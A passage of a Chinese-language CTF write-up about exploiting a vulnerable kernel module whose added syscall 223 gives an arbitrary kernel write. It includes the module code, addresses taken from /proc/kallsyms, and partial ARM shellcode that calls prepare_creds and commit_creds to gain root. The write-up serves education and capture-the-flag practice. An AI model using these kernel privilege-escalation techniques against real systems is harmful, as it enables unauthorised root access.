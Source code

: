 ```
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );
```

#### 2.1 问题分析

你会发现这道题目提供了一个编写的内核模块源码，其中添加了一个syscall，其执行的逻辑基本与`strcpy()`相同，只是会将小写字母变为大写字母。

那么，这里的漏洞就很明显了，基本上就是一个向任意地址写任意内容的漏洞，只要写入的内容不包含小写字母。接下来，就是如何利用这个syscall，获取root权限，从而读取flag文件。

系统调用的地址存在`0x8000e348+223 = 0x8000e6c4`, flag在`/root/flag`

#### 2.2 解题思路

首先修改 223 号系统调用的内容，然后调用这个修改过的 223 号系统调用，在 kernel space 把 uid 改掉，之后在 user space `execve()`就好了。

#### 2.3 解题步骤

在现在版本的 Linux 内核修改 uid，需要通过`prepare_creds()`和`commit_creds()`两步[参考2](https://cubarco.org/blog/2015/12/writeup-pwnable-syscall/#fn:2)。这两个函数的地址存在`/proc/kallsyms`:

```
$ cat /proc/kallsyms | grep 'prepare_creds\|commit_creds'
8003f44c T prepare_creds
8003f56c T commit_creds
...
```

参考 [@acama](https://github.com/acama) 的版本[ 参考3](https://cubarco.org/blog/2015/12/writeup-pwnable-syscall/#fn:3)写了一个( [@acama](https://github.com/acama) 的版本`prepare_creds()`之后直接就`commit_creds()`, 这估计只在老版本可以).`prepare_creds()`返回的结构体定义可以看[参考4](https://cubarco.org/blog/2015/12/writeup-pwnable-syscall/#fn:4).

```
@ prepare_creds and commit_creds
.section .text
.global _start
_start:
    push {lr}

    mov r0, #0
    ldr r3, =0x8003f44c  @ prepare_creds()
    blx r3

    push {r0}
    sub r1, r1, r1
    add r0, #4
    str r1, [r0], #4  @ set uid, euid, gid, etc
    str r1, [r0], #4
    str r1, [r0], #4
    str r1, [r0], #4
    str r1, [r0], #4
```